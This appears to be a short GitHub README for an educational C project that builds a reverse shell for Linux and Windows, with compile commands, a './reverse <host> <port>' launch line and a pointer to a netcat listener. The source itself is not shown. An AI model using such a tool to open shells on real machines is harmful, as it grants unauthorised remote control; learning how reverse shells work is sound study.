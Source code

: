 # reverse-shell :unlock:

A simple reverse shell for Linux and Windows written in C.
The goal of this project was for understand how the reverse shell works and why it is dangerous to run unknow software on our computer.

## For Linux:

Run `Make` in terminal and launch with:

```
$ ./reverse <host> <port>
```
You can run a small listening server with netcat.

## For Windows:

Compile with `x86_64-w64-mingw32-gcc -o <name.exe> reverse_win.c -lwsock32 -lws2_32`

Open cmd and run with

```
$ ./reverse <host> <port>
```
